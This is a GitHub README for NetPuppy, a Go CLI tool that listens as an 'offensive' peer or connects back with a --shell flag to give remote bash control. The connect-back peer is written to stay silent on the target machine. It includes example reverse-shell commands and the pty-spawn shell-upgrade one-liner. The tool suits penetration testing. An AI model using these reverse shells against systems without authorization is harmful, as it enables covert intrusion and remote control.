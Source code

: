 # NetPuppy
```
|8PPPPe
|8    |8 |eeee |eeeee    ___      .++.
|8e   |8 |8      |8   __/_, '.  .'    '. .
|88   |8 |8eee   |8e  \_,  | \_'  /   )'-')
|88   |8 |88     |88   U ) '-'    \  (('"'
|88   |8 |88ee   |88   ___Y  ,    .'7 /|
______________________(_,___/___.' (_/_/_
|8PPPPe
|8    |8 |e   .e |eeeee  |eeeee  |e   .e
|8eeee8  |8   |8 |8   |8 |8   |8 |8   |8
|88      |8e  |8 |8eee8  |8eee8  |8eee8
|88      |88  |8 |88     |88      |88
|88      |88ee8  |88     |88      |88
________________________________________
	
	  Launch a puppy to
   	~ sneef  and  fetch ~
	  data   for   you! 
```
### Say goodbye to that "`python -c import pty; pty.spawn('bash')`" bullsh*t!
NetPuppy is a CLI tool for establishing a TCP connection b/w two peers with the option to start a stable reverse shell on one of them. NP does this by creating a pseudoterminal, so the shell experience is similar to telnet or (un-encrypted) SSH.

Originally inspired by [Netcat](https://netcat.sourceforge.net/) (until I figured out what netcat actually does) & written in Golang!
## Install
- NetPuppy is a Go project, so make sure you at least have Go 1.22.1 installed. 
- **ADDITIONALLY** you will need gcc for the CGo!
1. Clone this repo
2. Run `go build` in the root directory
## Use:
NetPuppy has two primary modes: offense & connect-back.
### Offense
The 'offensive' peer is executed as a server and listens to the `0.0.0.0` address and a specified port. It will bind incoming TCP connections to that port.
### Connect-Back
The 'connect-back' peer starts w/ a client-like relationship to the offense peer. I.e. it will connect to the address and port you give it. Additionally, if you give the `--shell` flag, it will start a bash process on the local machine. This shell will take input from the offensive peer (via the socket) and execute the input as commands on the machine its running on. The output from the shell will then be echoed back to the Offensive peer.
#### Flags:
- `-H` the host IP address you want to connect to (in connect-back mode)
- `-p` the port you want to start your peer on (both mode types)
- `-l` tell NetPuppy to listen, this will start NP in the offense mode. You can also give a port number.
- `--shell` tell NetPuppy to start a bash shell on the client peer which will take socket input as stdin and output stdout/stderr back into the socket.
## Examples:
### Offense Peer:
```
$ go run main.go -l -p 44444

... <banner>          

    *sneef sneef*
   .-.
  / (_          |Host:  0.0.0.0
 ( "  6\___o    |RPort: 44444
 /  (  ___/     |LPort: 44444
/     /  U      |Mode:  Offensive Server
```
### Connect-Back Peer:
```
$ go run main.go -H 0:0:0:0:0:0:0:1 -p 44444

...<banner>

        bork!
     __  /     |Host:  0:0:0:0:0:0:0:1
(___()'';      |RPort: 44444
/ )   /'       |LPort: 60804
/\'--/\        |Mode:  Client
```
### Connect-Back Peer w/ shell:
The Connect-Back peer will **NOT** print any output to the terminal when the `--shell` flag is given (we're trying to be sneaky). Any errors will be sent through the socket to the Offensive peer (unless the socket hasn't been connected yet, in that case NP will just exit without printing anything on the target machine).
```
$ go run main.go -H 127.0.0.1 -p 44444 --shell
```

## Goals
NetPuppy will be able to:
- [x] listen for & serve incoming TCP connections as well as initiate outgoing ones
- [ ] maintain a stable connections b/w both parties (currently improving on this, see branch [58-stabilize-shell-pty](https://github.com/TrshPuppy/netpuppy/tree/58-stabilize-shell-pty)
- [x] send and receive data from either endpoint
- [x] initiate a 'helper shell' on the client peer



## This project is still being built & improved!
### Contributing:
Just fork and create a pull request w/ a description of your changes. I (TrshPuppy) will review it! :)
### Python?
This project was originally written in Python. If you'd like to fork the Python branch (which isn't being updated), you can check it out [here](https://github.com/TrshPuppy/NetPuppy/tree/python-version-abandoned)!
